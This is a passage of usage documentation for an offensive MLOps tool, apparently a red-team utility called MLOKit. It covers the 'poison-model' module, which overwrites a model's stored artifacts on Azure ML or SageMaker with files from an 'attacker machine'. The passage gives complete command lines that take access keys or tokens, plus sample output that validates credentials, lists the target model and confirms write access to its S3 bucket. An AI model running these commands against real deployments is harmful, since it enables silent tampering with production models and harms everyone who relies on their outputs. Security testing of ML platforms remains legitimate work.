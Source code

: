 ### Poison Model

#### Use Case

> *Poison a given ML model by overwriting its model artifacts*

#### Syntax

Supply the `poison-model` module, along with the MLOps platform in the `/platform:` command argument. Additionally, provide a credential in the `/credential:` command argument and a model ID in the `/model-id:` command argument. Finally, supply the `/source-dir:` argument with the directory on your attacker machine that contains the poisoned model files.

##### Azure ML

For the `azureml` platform, you will also have to provide a subscription ID in the `/subscription-id:` command argument. Additionally, you will need to provide a region, resource group and workspace in the `/region:`, `/resource-group:` and `/workspace:` command arguments respectively.

`MLOKit.exe poison-model /platform:azureml /credential:eyJ... /subscription-id:[someSubscriptionID] /region:[REGION] /resource-group:[RESOURCE_GROUP] /workspace:[WORKSPACE_NAME] /model-id:[MODEL_ID] /source-dir:[LOCAL_PATH_TO_FILES]`

##### SageMaker

`MLOKit.exe poison-model /platform:sagemaker /credential:access_key;secret_key /region:[REGION_NAME] /model-id:[MODEL_ID] /source-dir:[LOCAL_PATH_TO_FILES]`

##### Example Output

```

C:\>MLOKit.exe poison-model /platform:sagemaker /credential:access_key;secret_key /region:us-east-2 /model-id:employee-salary-model /source-dir:C:\Demo\MLOKit-OiEJQGbz

==================================================
Module:         poison-model
Platform:       sagemaker
Timestamp:      1/25/2025 9:39:00 PM
==================================================


[*] INFO: Performing poison-model module for sagemaker

[*] INFO: Checking credentials provided

[+] SUCCESS: Credentials are valid

                                        Model Name |        Creation Date |                                          Model ARN
------------------------------------------------------------------------------------------------------------------------------
                             employee-salary-model |            1/22/2025 | arn:aws:sagemaker:[REGION]:[ACCOUNT_ID]:model/employee-salary-model

[*] INFO: Model artifacts location

s3://[BUCKET_NAME]/Canvas/default-20250121T171825/Training/output/Canvas1737498359380/sagemaker-automl-candidates/model/Canvas1737498359380-trial-t1-1/model.tar.gz

[*] INFO: Checking access to S3 bucket with name: [BUCKET_NAME]

[+] SUCCESS: You have access to S3 bucket with name: [BUCKET_NAME]

[*] INFO: Listing prefix where files will be uploaded: Canvas/default-20250121T171825/Training/output/Canvas1737498359380/sagemaker-automl-candidates/model/Canvas1737498359380-trial-t1-1/
```